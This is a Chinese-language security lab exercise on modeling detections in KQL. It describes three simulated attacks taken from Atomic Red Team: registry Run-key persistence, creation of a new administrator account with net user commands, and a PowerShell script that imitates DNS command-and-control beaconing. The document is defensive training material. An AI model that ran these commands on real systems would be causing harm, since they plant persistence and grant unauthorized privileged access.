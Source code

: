 ﻿# 模块 7 - 实验室 1 - 练习 4 - 连接检测建模

### 任务 1：了解攻击

**重要提示：在此练习中你不会执行任何操作。**  这些说明只是阐述你将在下一个练习中执行的攻击。请仔细阅读本页。

攻击模式基于开源项目：https://github.com/redcanaryco/atomic-red-team

**备注**：为了方便演示实验室，某些设置触发的时间期限较短。

#### 攻击 1 - 通过注册表项添加实现的持久性攻击。

此攻击从命令提示符运行：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。  这会让攻击者能够使用有特权的其他帐户登录。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻击 3 -DNS / C2 

此攻击将模拟命令和控制 (C2) 通信。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 任务 2：了解检测建模。

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。  你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。

以下实验室在安装了 Defender for Endpoint Windows 主机和安装了 Sysmon 的 Windows 上运行相同的攻击。  构建检测时，你将看到每一种中数据规范化的差异。

有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，对分析规则进行其他更改。

# 转到练习 5
